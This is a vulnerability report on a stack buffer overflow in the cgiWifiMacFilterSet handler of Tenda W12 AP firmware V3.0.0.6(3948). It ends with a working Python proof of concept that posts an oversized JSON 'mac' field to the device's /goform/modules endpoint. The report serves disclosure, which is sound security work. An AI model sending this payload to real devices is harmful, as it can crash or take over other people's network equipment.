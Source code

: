 # Bug Report: BOF in Tenda W12 AP
A stack buffer overflow vulnerability exists in Tenda W12 firmware V3.0.0.6(3948) within the cgiWifiMacFilterSet function. Remote attackers can exploit this flaw by sending malformed HTTP requests to to achieve arbitrary code execution or cause denial of service conditions.

## Vulnerability Details

### Product Information
- **Product**: Tenda W12 AP
- **Affected Version**: V3.0.0.6(3948)
- **Download Source**: https://www.tenda.com.cn/material/show/673226879721541
- **Vulnerability Type**: Stack Buffer Overflow

## Description
A stack buffer overflow vulnerability exists in the HTTP request handler for `wifiMacFilterSet` operations. The handler extracts a `macList` array from user-controlled JSON input without validating the length of the `mac` field. When a JSON payload contains an oversized `mac` value, the `sprintf` call at line 82 overflows the stack buffer.

![alt text](image-2.png)
## PoC
![alt text](image.png)
![alt text](image-1.png)
## Reproduce
```python
#!/usr/bin/env python3

from pwn import *
import requests

def send_payload(url, payload, headers):
    print("sending...")
    response = requests.post(
        url,
        json=payload,
        headers=headers,
    )
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = {
    "wifiMacFilterSet": {
        "macList" : [
            {
                "index": 1,
                "macEn": "0",
                "mac": 0x400 * 'A' + 'DOIT'
            }
        ],
    }
}

headers = {"Host": "10.10.10.1",
    "Content-Type": "application/json",
}

send_payload("http://10.10.10.1/goform/modules", payload, headers)
```

